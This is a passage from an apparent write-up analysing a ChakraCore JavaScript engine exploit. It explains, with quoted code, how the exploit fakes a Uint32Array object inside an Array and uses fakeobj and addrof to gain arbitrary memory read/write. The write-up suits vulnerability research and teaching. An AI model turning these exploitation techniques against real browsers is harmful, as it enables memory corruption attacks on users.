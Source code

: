 ### arbitrary read/write primitive

The exploit code first fake an `Uint32Array` object, then modify its data buffer's pointer to obtain the arbitrary read/write primitive. To fake an `Uint32Array` object, it will need:

* Address of `Uint32Array`'s vtable.
* A pointer point to `0x30` ( `Uint32Array`'s type id. Check [this link](https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Types/EdgeJavascriptTypeId.h) for more information )
* A fake size
* An `ArrayBuffer`'s address
* A fake data buffer pointer

From the exploit code we can see it use `Array` to fake those data:

```javascript
...................
var real = new Array(16);
var real_addr = addrof(real);

// fake vtable pointer
real[0] = lower(uint_vtable); 
real[1] = upper(uint_vtable);

// fake type pointer
real[2] = lower(array_type);
real[3] = upper(array_type);

// dont care
real[4] = 0;
real[5] = 0;
real[6] = 0;
real[7] = 0;

// fake size
real[8] = 0x1000;
real[9] = 0;

// fake ArrayBuffer pointer
real[10] = lower(ab_addr);
real[11] = upper(ab_addr);

// dont care
real[12] = 0;
real[13] = 0;
```

As for read/write primitive, it first assign the address in `real[14]` & `real[15]` to modify the data buffer's pointer, then use `fakeobj` to obtain the handle of the fake `Uint32Array` object:

```javascript
    // the following creates an object which we will use to read and write
    // memory arbitrarily
    var memory = {
        handle: fakeobj(real_addr + 0x58), // return fake object
        init: function(addr) {
            // we set the buffer pointer of the fake Uint32Array to the 
            // target address
            real[14] = lower(addr);
            real[15] = upper(addr);

            // Now get a handle to the fake object!
            return memory.handle;
        },
```
